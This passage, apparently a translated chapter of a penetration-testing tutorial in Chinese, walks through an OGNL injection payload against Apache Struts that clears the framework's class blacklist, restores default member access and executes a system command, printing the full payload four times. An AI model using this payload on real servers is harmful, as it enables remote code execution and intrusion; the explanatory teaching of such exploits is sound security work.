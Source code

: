由于我们还没有上下文，我们需要检索上下文映射，这可以通过访问`ActionContext.container`**来完成。**现在可以访问此容器，因为我们已经从`struts.valueStack`**请求了上下文。**参考我们有效负载的以下突出显示行：

```
${(*#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS*).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

现在我们可以访问上下文映射（参考有效负载的第一条高亮显示的行），我们现在可以清除黑名单，这样我们就可以访问没有限制的`DefaultMemberAccess`对象。我们有效载荷的第二条突出显示的线是：

```
${(*#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS*).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

一旦`clear()`方法处理完毕，我们已经清除了黑名单，我们现在可以使用`setMemberAccess()`方法将`MemberAccess`设置为`DEFAULT_MEMBER_ACCESS`**。**参考有效负载中的以下突出显示文本：

```
${(*#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS*).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

现在我们可以访问`DEFAULT_MEMBER_ACCESS`对象了，我们可以调用 Java 公共实用程序包中的任何类、方法和对象，以便在 OGNL 中运行。在本例中，我们将使用`Runtime().exec()`方法来执行我们的命令（`#a=@java.lang.Runtime@getRuntime().exec('id')`，并且，为了在响应中打印命令执行输出，我们将使用`getinputStream()`方法，正如您在有效负载的最后两行中所看到的：

```
${(*#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS*).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

现在我们对有效负载有了更好的了解，让我们在请求中使用有效负载，可以在下面的屏幕截图中看到：

![](img/ef923dc9-8c88-4f0f-8edf-f4acfbecf143.png)
